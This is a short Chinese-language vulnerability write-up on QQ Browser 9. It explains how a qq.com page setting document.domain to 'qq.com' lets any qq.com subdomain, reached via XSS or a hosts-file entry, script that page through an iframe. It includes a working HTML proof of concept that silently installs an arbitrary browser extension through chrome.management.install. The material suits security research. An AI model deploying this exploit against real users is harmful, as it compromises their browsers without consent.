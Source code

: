 ## document.domain的妙用

在[QQ浏览器9本地文件读取&远程命令执行](http://wooyun.org/bugs/wooyun-2010-0176314)里用到了一个关于`documnet.domain`的小技巧。

页面 http://event.browser.qq.com/stdl/miyue/index.html 里前端存在代码 [header.js](http://stdl.qq.com/stdl/tq_center/activity/common/header.js) 设置了其domain为`qq.com`。这意味着，如果`qq.com`的任意一个子域名通过iframe加载上述的页面，只要也设置了相同的domain，就能够访问到event.brrowser上的window对象。

```javascript
try {
	document.domain = 'qq.com';
} catch(e) {
}
```

### 例子

案例中用的是XSS，本地测试可以修改一下`hosts`文件，加一个qq的子域名，比如`127.0.0.1 test.qq.com`，然后用QQ浏览器访问下面这个页面，就可以看到QQ浏览器被安装了指定的扩展。

http://test.qq.com/index.html

```html
<html>
<body>
</body>
<script>
document.domain = 'qq.com';
var f = document.createElement("iframe");
f.src = 'http://event.browser.qq.com/stdl/miyue/index.html';

f.onload = function() {
	f.contentWindow.chrome.management.install({
    id: "llilejmacjghpgeenjonaggofdjobdhb",
    crx_url: "https://pcbrowser.dd.qq.com/pcbrowserbig/qbextension/qb_crx/85a4b89505532a5ec92faf546bbcda81.crx"
  }, function() {
    console.log(arguments)
  });
}
document.body.appendChild(f);
</script>
</html>
```
